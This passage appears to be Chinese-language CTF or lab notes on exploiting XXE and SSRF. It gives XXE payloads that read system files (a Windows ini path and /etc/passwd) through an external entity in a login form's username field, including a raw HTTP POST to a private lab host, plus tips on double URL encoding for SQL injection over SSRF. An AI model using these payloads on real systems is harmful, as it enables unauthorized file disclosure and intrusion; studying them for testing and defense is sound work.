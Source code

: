 ```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY f SYSTEM "file:///C://Windows//win/ini"> ]>
<x>&f;</x>
```

 

```
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY admin SYSTEM "file:///C://Windows//win/ini"> ]>
<user><username>&admin;</username><password> admin</password></user> 
```



### 利用SSRF进行XXE漏洞

使用gopher伪协议

需要注意的是post提交的是哪个页面，有可能不是index.php

```xml
POST /doLogin.php HTTP/1.1
Host: 172.250.250.6
contentType: application/xml;charset=utf-8
Content-Length: 131

<!DOCTYPE ANY[ <!ENTITY admin SYSTEM "file:///etc/passwd"> ]><user><username>&admin;</username><password> admin</password></user> 
```

# 9.SSRF进行SQL注入

使用<font color=Red>--%20</font>>注释

使用hackbar提交时会对已经输入的内容进行一次URL编码,把%20替换成%2520

SSRF需要两次URL编码 

![image-20240407203908192](SSRF/image-20240407203908192.png)
